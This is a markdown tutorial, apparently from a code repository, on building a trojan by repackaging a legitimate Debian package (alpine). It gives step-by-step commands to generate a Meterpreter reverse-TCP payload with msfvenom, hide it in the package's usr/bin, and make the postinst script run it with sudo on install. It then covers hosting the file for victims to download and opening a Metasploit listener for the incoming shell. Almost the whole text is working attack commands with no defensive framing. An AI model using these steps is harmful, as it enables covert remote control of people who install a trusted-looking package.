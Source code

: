 # Builing a Trojan

## Pre-requisutes

[Install metasploit framework](https://adamtheautomator.com/install-metasploit-on-ubuntu/)


## Optional setup
```bash
mkdir -p ~/Desktop/Malware/trojans && cd ~/Desktop/Malware/trojans
```

<br>

Choose an installer to modify and download it (kali - debian)
```bash
sudo apt download alpine
```
^ this downloads the alpine dpkg

<br>


## Extract the exe contents into a file

 <br>
 
Install engrampa archive manager
```bash
sudo apt update && sudo apt install engrampa -y
```

<br>

Extract .deb file contents
```bash
engrampa <filename> -e <folder_to_extract_into>
```  
Example
```bash
engrampa <filename> -e mailTrojan
```  

^ this requires a GUI – if not it will thrown an error.

<br>

View files
```bash
ls -hal mailTrojan
```
^ Along with the installation folder (“DEB”) you’ll have some folders (like “usr”) which will be copied to the relative home directories when installing the program. For example, upon installation, the “usr” folder (and it contents) will be copied to /home/usr. We will save our malicious file in usr/bin later.

<br>

## Creating/Implanting your malicious file

<br>

Create reverse payload shell using Msfvenom  

Format
```bash
msfvenom -a <architecture> -–platform <windows|linux> -p <payload> LHOST=<listening_host> LPORT=<listening_port> -b “\x00” -f <exe|elf> -o <exe_name>
```

<br>

Example
```bash
msfvenom -a x86 –-platform linux -p linux/x86/meterpreter/reverse_tcp LHOST=<kali_ip> LPORT=8443 -b “\x00” -f elf -o malicious
```

<br>

Copy your malicious file to the usr/bin
```bash
cp malicious usr/bin
```

<br>

__Troubleshooting: Creating a payload__  
If you have an encoding error – try explicitly specifying your encoder.  
See encoders with: `msfvenom –list encoders`  
Try using this one if you hit an error: `-e x86/mixed`  

 
Make sure the right arch/payload combination is selected…  
View payloads: `msfvenom –list payloads`  
View archs: `msfvenom --list archs`

<br>

## Editing your .DEB file

<br>

__mailTrojan/DEBIAN dir:__
- control: This file holds information about the package.
- md5sums: Used to verify file integrity after installation.
- preint: In Debian system – used tell installer what to do before installing. Create if it doesn’t exist (optional).
- postint: In Debian system – used tell installer what to do after installing. Create if it doesn’t exist.

<br>

Edit your postint file – make it a shell script to run the malicious payload
```bash
#!/bin/sh
sudo chmod 2755 /usr/bin/malicious &
sudo ./usr/bin/malicious &
exit 0
```
^ Point to the malicious file that you created earlier.

<br>

Make sure postint file is executable
```bash
chmod +x mailTrojan/DEBIAN/postint
```

<br>

## Compiling and listening

<br>

Compile your exe into a .deb file
```bash
dpkg-deb -–build <path_to_exe_files>
```

<br>

Example:
```bash
dpkg-deb -–build ~/Desktop/Malware/trojans/mailTrojan
```

<br>

Now you can host this file so someone can download.
```bash
python -m http.server 8080
```

<br>

Listening for incoming connections
```bash
msfconsole -q -x “use exploit/multi/handler; set PAYLOAD linux/x86/meterpreter/reverse_tcp; set LHOST <kali_ip>; set LPORT <kali_port; run; exit -y>
```

